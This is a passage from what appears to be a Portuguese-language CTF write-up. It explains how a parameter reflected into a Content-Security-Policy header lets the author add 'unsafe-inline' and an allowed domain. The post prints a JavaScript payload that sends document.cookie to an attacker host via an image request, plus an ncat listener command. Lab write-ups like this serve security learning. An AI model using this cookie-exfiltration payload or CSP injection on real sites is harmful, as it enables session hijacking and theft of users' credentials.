 Isso mostra que o que é passado pro atributo src é colocado no CSP pelo servidor. Sendo assim, isso abre uma possibilidade para alterar o que tem no CSP, permitindo que façamos um site com XSS para enviar ao administrador e pegar a flag!

Lendo mais sobre o CSP, é possível ver que o atributo `script-src` define se scripts podem ser rodados no site em questão. No site alvo, ele está desabilitado, mas ao injetarmos nosso próprio `script-src` com o valor `unsafe-inline`, podemos agora fazer tags script e executar código. 

A partir daqui, bastaria fazer um fetch com os dados do cookie para um domínio ou servidor que controlamos e sucesso, certo? Errado, por um simples motívo: fetch está bloqueado pelo CSP, e como está antes da nossa injeção, não podemos sobrescrevê-lo. Mas não seja por isso: basta, ao injetar o CSP, autorizar um domínio nosso e, por meio de outra imagem, exfiltrar os dados. Isso pode ser feito da seguinte forma: 

```js
setTimeout(function(){
	var imgNova = document.createElement("img");
	imgNova.src = "http://meu.pc:8001/?cookie=" + document.cookie;
},2000);
```

Note que a url em questão é meu.pc. Isso se dá porque tem um pequeno problema de fazer esse desafio usando localhost: como tanto a máquina do atacante como a máquina da vítima estão no mesmo domínio de rede, o cookie de autenticação será enviado mesmo se você não exfiltrar ele, porque ele é considerado como Same Origin. Para fazer com que o desafio ficasse mais parecido com o real, eu adicionei no `/etc/hosts` uma linha que define outro nome para localhost: `meu.pc`. Dessa forma, eu não tomo um _spoiler_ do desafio!

E passando esse link para o computador da vítima (no mesmo jeito com a pasta `uv_worker` que os outros desafios), quando ela acessar, uma requisição será enviada para localhost:8001. Para ver o que é mandado lá, basta "ouvir" usando netcat (`ncat -lk localhost 8001`) e o cookie chegará da seguinte forma:

![Output do netcat depois do exploit](/assets/flag_csp.png)

# Considerações Finais 

Eu parei meu write up aqui por alguns motivos simples:

- Alguns containers não funcionam ainda no ambiente local, e não consegui descobrir o porque ainda
- Minhas férias acabaram, infelizmente
- Estou trabalhando em outros projetos relacionados à segurança (segredo)

Pretendo atualizar esse post com as próximas soluções que conseguir assim que tiver conseguido atacar o desafio, mas por enquanto fico por aqui. Obrigado por ter lido até aqui! 

